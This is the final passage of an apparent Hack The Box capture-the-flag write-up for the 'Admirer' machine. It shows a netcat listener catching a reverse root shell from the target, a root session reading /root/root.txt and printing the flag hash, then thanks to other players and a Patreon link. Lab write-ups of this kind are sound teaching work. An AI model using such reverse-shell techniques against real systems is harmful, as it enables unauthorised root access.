Running backup script in the background, it might take a while...
waldo@admirer:/dev/shm$ I am groot
```

### Root.txt

```text
zweilos@kali:~$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.10.15.57] from (UNKNOWN) [10.10.10.187] 60956
whoami
root
cat /root/root.txt
0f4b44fb50b2c25de7e1464a2ea8b877
```

Thanks to [`polarbearer`](https://www.hackthebox.eu/home/users/profile/159204) and [`GibParadox`](https://www.hackthebox.eu/home/users/profile/125033) for something interesting or useful about this machine.

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

